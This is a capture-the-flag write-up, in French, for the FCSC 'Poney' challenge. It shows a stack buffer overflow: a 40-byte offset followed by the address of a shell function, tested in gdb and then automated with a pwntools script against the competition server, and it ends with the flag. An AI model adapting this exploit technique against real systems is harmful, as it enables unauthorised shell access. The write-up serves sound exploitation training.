

# Poney


```bash
$ file poney 
poney: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=06fdfc3c264bdc167a0855288210c06e16ce805e, not stripped
```


```bash
$ nm poney | grep shell
0000000000400676 T shell
$ python3 
>>> import pwn
>>> pwn.p64(0x00400676)
b'v\x06@\x00\x00\x00\x00\x00'

>>> pwn.p64(0x00400676).decode()
'v\x06@\x00\x00\x00\x00\x00'

$ gdb poney
gdb-peda$ r < <(python -c "print 'A' *40 + 'v\x06@\x00\x00\x00\x00\x00'")
Starting program: /mnt/hgfs/shared/fcsc/intro/Poney/poney < <(python -c "print 'A' *40 + 'v\x06@\x00\x00\x00\x00\x00'")
Give me the correct input, and I will give you a shell:
>>> [Attaching after process 7169 vfork to child process 7197]
[New inferior 2 (process 7197)]
[Detaching vfork parent process 7169 after child exec]
[Inferior 1 (process 7169) detached]
process 7197 is executing new program: /usr/bin/dash
[Attaching after process 7197 fork to child process 7199]
[New inferior 3 (process 7199)]
[Detaching after fork from parent process 7197]
[Inferior 2 (process 7197) detached]
process 7199 is executing new program: /usr/bin/bash
[Inferior 3 (process 7199) exited normally]
Warning: not running
gdb-peda$ quit
```

Automatisons le processus avec **pwntools**:

```py
import pwn

remote = True

if remote:
    io = pwn.remote('challenges1.france-cybersecurity-challenge.fr', 4000)
else:
    io = pwn.process(elf.path)

pwn.context.log_level = 'debug'

elf = pwn.context.binary = pwn.ELF('poney')
offset = 40
shell = pwn.p64(elf.symbols.shell)
payload = "A"*offset + shell

pwn.info("Shell address: %#x ", elf.symbols.shell)
pwn.info("Little Endian shell address: %s ", shell)
pwn.info("Payload: %s ", payload)

io.sendline(payload)
io.interactive()
io.close()
```



flag: `FCSC{725dd45f9c98099bcca6e9922beda74d381af1145dfce3b933512a380a356acf}`